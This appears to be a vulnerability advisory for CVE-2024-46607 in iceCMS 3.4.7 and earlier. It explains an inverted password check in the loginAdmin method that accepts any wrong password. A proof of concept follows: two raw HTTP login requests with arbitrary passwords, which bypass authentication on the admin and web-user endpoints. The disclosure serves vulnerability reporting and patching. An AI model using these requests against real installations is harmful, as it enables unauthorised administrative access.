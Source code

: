 **[CVE-ID]**

CVE-2024-46607

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**
  The bug is in the loginAdmin method in the UserController.java file. The fundamental reason is a code logic error. The verifyPassword method returns true and false. True represents equality, which means the password entered by the user is correct. False represents inequality, which means the password entered by the user is incorrect. In this if statement, when the password is incorrect, the program continues to run directly. However, when the password is correct, an error is reported.

![pic1](/icecms/PIC/CVE-2024-46607-1.png)


In the implementation of the verifyPassword method, the encrypted password in the database is directly compared with the plaintext password passed in by the user. So it is definitely wrong and the authentication is bypassed directly for login.

![pic2](/icecms/PIC/CVE-2024-46607-2.png)

## POC：

Use Burpsuite to send the login data packet as follows. Or log in directly on the login page and enter any password.

```
GET /User/loginAdmin?username=admin&password=asdasdas HTTP/1.1
Host: [IP]
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
![pic3](/icecms/PIC/CVE-2024-46607-3.png)


*There is also a same problem in the login function of WebUserController.java.*

```
POST /Websuser/login HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 32

username=test1&password=asdasdas
```

